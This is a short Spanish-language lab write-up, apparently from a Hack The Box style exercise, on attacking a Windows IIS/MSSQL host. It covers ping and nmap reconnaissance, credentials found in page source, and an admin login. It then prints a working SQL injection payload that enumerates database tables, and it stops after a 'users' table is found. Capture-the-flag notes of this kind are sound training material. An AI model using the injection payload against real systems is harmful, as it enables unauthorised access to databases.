 #Advanced-Labs #Nota #tecnicas 

### Ping

```python
ping -c 1 10.13.37.12
PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=96.2 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.183/96.183/96.183/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Nmap scan report for 10.13.37.12
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.13.37.12:1433: 
|     Target_Name: TEIGNTON
|     NetBIOS_Domain_Name: TEIGNTON
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: TEIGNTON.HTB
|     DNS_Computer_Name: WEB.TEIGNTON.HTB
|     DNS_Tree_Name: TEIGNTON.HTB
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2024-06-12T13:37:50
|_Not valid after:  2024-12-12T13:37:50
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-14T16:57:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 44s, deviation: 0s, median: 44s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

### Enumeración del puerto 80 (http)
El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.
parece que tenemos muchas cosas aquí. debemos hacer una enumeración mas a fundo de esta web
![[Pasted image 20240714130314.png]]

si vamos al apartado de staff y analizamos el código fuente podemos encontrar la primera flag y también podemos ver unas credenciales
![[Pasted image 20240714130420.png]]

### admin
aquí vamos a probar las credenciales que hemos conseguido 
![[Pasted image 20240714132229.png]]

### SQLI
después de logearnos podemos ver el apartado de management y lo primero que vemos es una especie de petición a una base de datos asi que probamos directamente una `SQLI` y obtenemos información del primer parámetro `weapp`  
![[Pasted image 20240714132403.png]]

### Enumeración de la base de datos

```python
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

en esta enumeración podemos ver que existe una tabla que se llama `users`
![[Pasted image 20240714132734.png]]










### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
